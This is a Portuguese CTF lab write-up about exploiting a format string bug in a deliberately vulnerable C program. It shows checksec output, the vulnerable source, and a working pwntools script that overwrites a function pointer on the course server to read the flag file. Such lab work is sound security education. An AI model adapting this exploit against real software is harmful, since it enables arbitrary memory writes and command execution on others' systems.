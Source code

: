 # CTF - Semana 6

**Objetivo**  
Explorar vulnerabilidades de format string para ler e escrever em memória arbitrária.

## Execução de Tarefas

### Executar o `checksec`

O comando `checksec` é utilizado para verificar as proteções de segurança habilitadas num programa. Vamos executar o comando para verificar as proteções de segurança habilitadas no programa.

- Comando:

```bash
[11/15/24]seed@VM:~/.../ctf6$ checksec --file=program
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH Symbols  FORTIFY Fortified Fortifiable  FILE
No RELRO        Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2700 Symbols     No 0  0 program
```

### Funcionalidades de Segurança do checksec

| Funcionalidade | Estado | Descrição |
|----------------|--------|-----------|
| RELRO          | No RELRO | As entradas GOT são graváveis, tornando-as vulneráveis a sobrescrita. |
| Stack Canary   | Canary found | Proteção parcial contra estouros de buffer na pilha. |
| NX             | NX disabled | A pilha é executável, permitindo a execução de shellcode injetado. |
| PIE            | No PIE | O layout de memória do binário é fixo, tornando os endereços previsíveis. |
| RPATH/RUNPATH  | No RPATH/RUNPATH | Neutro neste caso. O binário não usa esses caminhos para carregamento de bibliotecas. |
| Symbols        | 2700 Symbols | O binário inclui símbolos, o que pode ajudar na criação de um exploit. |
| FORTIFY        | No | As funções não são fortificadas, deixando chamadas de biblioteca padrão desprotegidas. |

**Observações:**

- O binário é altamente vulnerável a explorações devido à falta de proteções RELRO, NX e PIE.
- Embora a presença de canários na pilha ofereça alguma proteção, a falta geral de mitigações fornece múltiplos vetores de ataque.

### Análise do Código Fonte

O código fonte fornecido contém uma vulnerabilidade de format string.

#### Código Fonte main.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int readtxt(char* name){
  char command[15];
  char arg[7];
  memcpy(arg,name,6);
  arg[6] = '\0';
  sprintf(command,"cat %s.txt\0",arg);
  printf("Running command %s\n",command);
  system(command);
  return 0;
}

int echo(char *str){
  printf("Echo %s\n",str);
  return 0;
}

int main() {
    void(*fun)(char*);
    char buffer[100];

    printf("Read the rules.\n");
    fun=&readtxt;
    (*fun)("rules");
    fun=&echo;
    printf("I will give you an hint: %x\n",&fun);
    printf("Try to unlock the flag:\n");
    fflush(stdout);
    scanf("%99s", &buffer);
    buffer[99]='\0';
    printf(buffer);  // Vulnerabilidade de format string
    printf("Calling function at %x %d\n",*fun,*fun);
    (*fun)(buffer);
    fflush(stdout);
    
    return 0;
}
```

A vulnerabilidade neste código é a função `printf(buffer);` que permite a um atacante explorar a vulnerabilidade de format string.

### Exploração da Vulnerabilidade

Para explorar a vulnerabilidade de format string, vamos usar o seguinte payload:

```bash
#!/usr/bin/python3
from pwn import *
import re

# Configuração do contexto e processo
context(arch='i386', log_level='debug')

# Função para enviar o payload e receber resposta
def exec_fmt(payload):
    r = remote('ctf-fsi.fe.up.pt', 4005)
    r.sendline(payload)
    response = r.recvall()
    r.close()
    return response

# Conectar ao servidor remoto para receber o endereço
r = remote('ctf-fsi.fe.up.pt', 4005)
output = r.recvuntil(b"flag:\n")
print("Output recebido:", output)

x = re.search(r"hint: ([a-f0-9]{8})", output.decode("utf-8"))
if x:
    target_adress = int(x.group(1), 16)
    print(f"Endereço obtido: {target_adress}:{hex(target_adress)}")

    # Definir o endereço da função alvo readtxt
    addr_readtxt = 0x080497a5

    flag = b'./flag**'
    # Obter o offset automaticamente usando FmtStr
    autofmt = FmtStr(exec_fmt)
    offset = autofmt.offset  # Este será o offset identificado

    # Construir o payload com fmtstr_payload usando o offset correto
    payload = flag + fmtstr_payload(offset + int(len(flag) / 4), {target_adress: addr_readtxt}, numbwritten=len(flag))

    # Enviar o payload para o programa principal e capturar a saída
    r.sendline(payload)
    buf = r.recvall().decode(errors="backslashreplace")
    print(buf)
else:
    print("Erro a obter endereço")
r.close()
```

### Resultado da Exploração

Após executar o script de exploração, obtemos a flag:

![flag](../img/ctf6-img1.png)
